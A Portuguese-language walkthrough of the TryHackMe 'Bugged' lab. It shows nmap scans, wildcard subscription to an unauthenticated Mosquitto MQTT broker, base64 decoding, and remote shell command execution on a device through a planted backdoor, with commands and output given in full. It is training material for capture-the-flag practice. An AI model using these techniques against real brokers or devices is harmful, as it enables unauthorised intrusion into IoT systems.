

# Bugged

| Plataforma | Dificuldade | OS |
| --------------- | --------------- | --------------- |
| TryHackMe | Easy | Linux |

---

## 1) Sobre a Máquina

Trata-se de uma máquina Linux, executando um Mosquitto MQTT, objetivo é acessar esse serviço e se comunicar com um dispositivo onde encotraremos a flag.

## 2) Ambiente

- SO atacante: Parrot OS
- Ferramentas principais: `nmap`, `mosquitto_sub` e `mosquitto_pub`.

## 3) Metodologia

**Recon:** Foi feito um mapemanto inicial de quais portas estavam abertas no alvo de modo a nos dar uma visão geral do que estamos lidando.  
**Enumeração** Utilizando da informação obtida na etapa anterior, foi feita um análise de quais informações encotraríamos no serviço, interagido diretamente com ele.  
**Expĺoração:** Interagimos com o serviço de modo a conseguir acesso a informações presentes em um dispositivo que também se comunicava com o mesmo.  

## 4) Passo a passos

### Recon

A primeira coisa a ser feita é descobrir quais serviços estão rodando na máquina e suas respectivas versões. O `nmap` irá nos ajudar com isso!

```plaintext
nmap -sS –p- -v –min-rate 5000 <ip> -oN servicos.out
```

Gosto sempre de fazer um scan em todas as portas, inicialmente, sem versionamento, apenas para ter uma noção dos serviços.
Dando uma olhada, vemos duas portas abertas apenas:

```plaintext
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $sudo nmap -sS -p- --min-rate 5000 10.201.23.162 -oN servicos.out
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-28 03:12 UTC
Nmap scan report for 10.201.23.162
Host is up (0.26s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1883/tcp open  mqtt
```

### Enumeration

Hmmm, um serviço interessante! Vamos fazer um scan mais completo:

```plaintext
sudo nmap -sVC -v -p22,1883 <ip> -oN version.out

# Nmap 7.94SVN scan initiated Tue Oct 28 03:16:16 2025 as: nmap -sCV -v -p22,1883 -oN versios.out 10.201.23.162
Nmap scan report for 10.201.23.162
Host is up (0.27s latency).

PORT     STATE SERVICE                  VERSION
22/tcp   open  ssh                      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 cc:48:ea:f3:d0:cd:b0:25:03:79:d4:37:07:be:78:5b (RSA)
|   256 b1:23:58:03:39:d2:9a:cc:ca:55:66:e2:6f:d5:10:5f (ECDSA)
|_  256 b8:2a:18:74:10:e9:e8:02:23:b2:80:dc:29:50:df:86 (ED25519)
1883/tcp open  mosquitto version 2.0.14
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/uptime: 209 seconds
|     $SYS/broker/load/bytes/received/5min: 2176.17
|     $SYS/broker/publish/bytes/received: 10751
|     $SYS/broker/clients/active: 2
|     $SYS/broker/load/bytes/sent/1min: 1642.11
|     $SYS/broker/messages/sent: 379
|     $SYS/broker/load/publish/sent/1min: 28.32
|     $SYS/broker/load/sockets/5min: 0.49
|     $SYS/broker/messages/received: 321
|     $SYS/broker/load/connections/15min: 0.19
|     $SYS/broker/publish/messages/sent: 59
|     $SYS/broker/bytes/sent: 3927
|     $SYS/broker/bytes/received: 15161
|     $SYS/broker/load/messages/received/1min: 90.50
|     $SYS/broker/messages/stored: 33
|     $SYS/broker/load/messages/received/5min: 46.25
|     $SYS/broker/load/messages/sent/15min: 21.15
|     storage/thermostat: {"id":11914676439077974992,"temperature":23.639196}
|     patio/lights: {"id":11126736893749194470,"color":"PURPLE","status":"ON"}
|     $SYS/broker/publish/bytes/sent: 528
|     $SYS/broker/version: mosquitto version 2.0.14
|     $SYS/broker/retained messages/count: 36
|     $SYS/broker/load/bytes/sent/5min: 460.22
|     $SYS/broker/load/connections/5min: 0.49
|     $SYS/broker/load/messages/sent/1min: 118.83
|     $SYS/broker/load/messages/sent/5min: 52.34
|     $SYS/broker/store/messages/bytes: 173
|     $SYS/broker/store/messages/count: 33
|     $SYS/broker/subscriptions/count: 3
|     livingroom/speaker: {"id":252199143029016687,"gain":50}
|     $SYS/broker/load/bytes/received/15min: 900.78
|     $SYS/broker/clients/maximum: 2
|     $SYS/broker/load/sockets/15min: 0.19
|     $SYS/broker/load/messages/received/15min: 19.09
|     $SYS/broker/clients/connected: 2
|     $SYS/broker/load/connections/1min: 1.86
|     kitchen/toaster: {"id":11278444735380956314,"in_use":false,"temperature":149.80487,"toast_time":336}
|     $SYS/broker/load/bytes/received/1min: 4184.98
|     $SYS/broker/load/publish/sent/5min: 6.09
|     $SYS/broker/load/bytes/sent/15min: 169.26
|     $SYS/broker/clients/total: 2
|     frontdeck/camera: {"id":5861751920002761039,"yaxis":-5.255127,"xaxis":-47.492264,"zoom":1.8804559,"movement":true}
|     $SYS/broker/load/publish/sent/15min: 2.05
|_    $SYS/broker/load/sockets/1min: 1.86
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Interessante! O serviço rodando na porta 1883 trata-se do Mosquitto MQTT. Diante desse cenário, onde não conhecemos bem o serviço a qual estamos “encarando”, qual seria a tática milenar a ser usada?
Simples, pesquisar! Façamos o seguinte, deixo essa tarefa para você, abra alguma IA e pesquise “Me explique o que seria o serviço Mosquitto MQTT? me dê exemplos.” Pronto!
(Acostume-se a fazer isso, você vai precisar!)

Bem, prosseguindo…
Assumo que você já tenha no mínimo uma leve noção do que seria esse serviço. Começaremos tentando descobrir quais tópicos existem no broker, isso nos dará uma visão do que estamos lidando.

```plaintext
┌─[✗]─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $mosquitto_sub -h 10.201.90.42 -t "#"

{"id":5239472374486997543,"gain":73}
{"id":4845778359486881024,"color":"GREEN","status":"OFF"}
{"id":5309811335581718290,"in_use":false,"temperature":154.35641,"toast_time":149}
{"id":6905380582667440447,"temperature":23.193663}
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==

```

Veja que encontramos algo interessante! Mas antes, me parece que pode ter algum sistema de regulação de temperatura de algum dispositivo se comunicando com o broker, veja ali o “temperature”, bacana! Enfim…

Dando um foco na string base64 encoded. vamos decodificar e ver o que se trata:

```plaintext
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $echo 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ==' | base64 -d | jq
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "registered_commands": [
    "HELP",
    "CMD",
    "SYS"
  ],
  "pub_topic": "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub",
  "sub_topic": "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"
}

```

Hmm, temos o que parece ser uma mensagem nos indicando como interagir com algum dispositivo, inclusive nos é dado um ID, o que pode pertencê-lo.
Nos foi dado também, dois tópicos: um com final sub e o outro com final pub. OK!

Faremos o seguinte, vamos tentar enviar alguma coisa para algum destes tópicos.

Vamos enviar qualquer coisa para o tópico sub, mas antes, vamos também, ao mesmo tempo estar ouvindo em busca de alguma informação:

```plaintext
// para ouvir
mosquitto_sub -h 10.201.90.42 -t "U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub"

// para enviar uma mensagem
mosquitto_pub -h 10.201.90.42 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m {HELP}
```

Veja que recebemos mais uma mensagem, também base64 encoded:



Vamos fazer um decode dela:

```plaintext
┌─[✗]─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $echo 'SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=' | base64 -d
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```

Interessante! Veja que recebemos um erro indicando a forma correta de “conversar” com o dispositivo! Portanto, vamos nos adequar e tentar conversar com o dispositivo, mas antes, veja a string backdoor, estranho não? Enfim, vamos lá!

Escrevendo nossa nova mensagem:

```plaintext
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $echo -ne '{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "HELP"}' | base64 -w0
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkhFTFAifQ==

```

Como backdoor_id usamos o ID que tínhamos visto na primeira mensagem base64 encoded que recebemos.

Vamos enviar:

```plaintext
┌─[✗]─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $mosquitto_pub -h 10.201.90.42 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m 'eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkhFTFAifQ=='

```

Ao enviar, recebemos uma nova mensagem:

```plaintext
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiTWVzc2FnZSBmb3JtYXQ6XG4gICAgQmFzZTY0KHtcbiAgICAgICAgXCJpZFwiOiBcIjxCYWNrZG9vciBJRD5cIixcbiAgICAgICAgXCJjbWRcIjogXCI8Q29tbWFuZD5cIixcbiAgICAgICAgXCJhcmdcIjogXCI8YXJnPlwiLFxuICAgIH0pXG5cbkNvbW1hbmRzOlxuICAgIEhFTFA6IERpc3BsYXkgaGVscCBtZXNzYWdlICh0YWtlcyBubyBhcmcpXG4gICAgQ01EOiBSdW4gYSBzaGVsbCBjb21tYW5kXG4gICAgU1lTOiBSZXR1cm4gc3lzdGVtIGluZm9ybWF0aW9uICh0YWtlcyBubyBhcmcpXG4ifQ==
```

E mais uma vez, vamos decodificar:

```plaintext
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $echo 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiTWVzc2FnZSBmb3JtYXQ6XG4gICAgQmFzZTY0KHtcbiAgICAgICAgXCJpZFwiOiBcIjxCYWNrZG9vciBJRD5cIixcbiAgICAgICAgXCJjbWRcIjogXCI8Q29tbWFuZD5cIixcbiAgICAgICAgXCJhcmdcIjogXCI8YXJnPlwiLFxuICAgIH0pXG5cbkNvbW1hbmRzOlxuICAgIEhFTFA6IERpc3BsYXkgaGVscCBtZXNzYWdlICh0YWtlcyBubyBhcmcpXG4gICAgQ01EOiBSdW4gYSBzaGVsbCBjb21tYW5kXG4gICAgU1lTOiBSZXR1cm4gc3lzdGVtIGluZm9ybWF0aW9uICh0YWtlcyBubyBhcmcpXG4ifQ==' | base64 -d | jq
{
  "id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
  "response": "Message format:\n    Base64({\n        \"id\": \"<Backdoor ID>\",\n        \"cmd\": \"<Command>\",\n        \"arg\": \"<arg>\",\n    })\n\nCommands:\n    HELP: Display help message (takes no arg)\n    CMD: Run a shell command\n    SYS: Return system information (takes no arg)\n"
}

```

Ajeitando um pouquinho mais:

```plaintext
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d",
"response":"Message format:
Base64({
    \n
    \"id\": \"<Backdoor ID>\",
    \"cmd\": \"<Command>\",
    \"arg\": \"<arg>\"
})
Commands:
HELP: Display help message (takes no arg)\
CMD: Run a shell command
SYS: Return system information (takes no arg)
"}
```

### Exploração

Interessante! Parece que conseguimos executar comandos shell no dispositivos, vamos tentar!
Montando a mensagem:

```plaintext
// A mensagem
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "id"}"

// base64
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $echo -ne "{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "id"}" | base64 -w0
eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiaWQifQo=
```

Vamos enviar:

```plaintext
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $mosquitto_pub -h 10.201.90.42 -t 'XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub' -m 'eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiaWQifQo='
```

A resposta:

```plaintext
eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoidWlkPTEwMDAoY2hhbGxlbmdlKSBnaWQ9MTAwMChjaGFsbGVuZ2UpIGdyb3Vwcz0xMDAwKGNoYWxsZW5nZSlcbiJ9

// decoded
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $echo 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoidWlkPTEwMDAoY2hhbGxlbmdlKSBnaWQ9MTAwMChjaGFsbGVuZ2UpIGdyb3Vwcz0xMDAwKGNoYWxsZW5nZSlcbiJ9' | base64 -d
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)\n"}
```

Excelente! Sabendo disso, vamos tentar listar os arquivos existentes no dispositivo, para isso, repita o mesmo processo anterior, troque apenas de id para ls, ao fazer isso, recebemos a seguinte resposta:

```plaintext
┌─[user@parrot]─[~/ctfs/thm/bugged]
└──╼ $echo 'eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlc3BvbnNlIjoiZmxhZy50eHRcbiJ9' | base64 -d
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}

```

E achamos a flag! Para abrir a flag, basta repetir o mesmo processo, trocando apenas de id para cat ./flag.txt e pronto, terás a flag!

## 5) Conclusão

Curitu? Eu particularmente nunca tinha ouvido falar neste serviço, muito bacana! Percebeu como não usamos nenhuma outra tool além do bom e velho `nmap` e as tools para interagir com o **Mosquitto**? Portanto, veja como é mais importante dominar todo o processo e suas bases, ao invés de dominar apenas ferramentas.

Muito obrigado pela leitura!
Até a próxima!
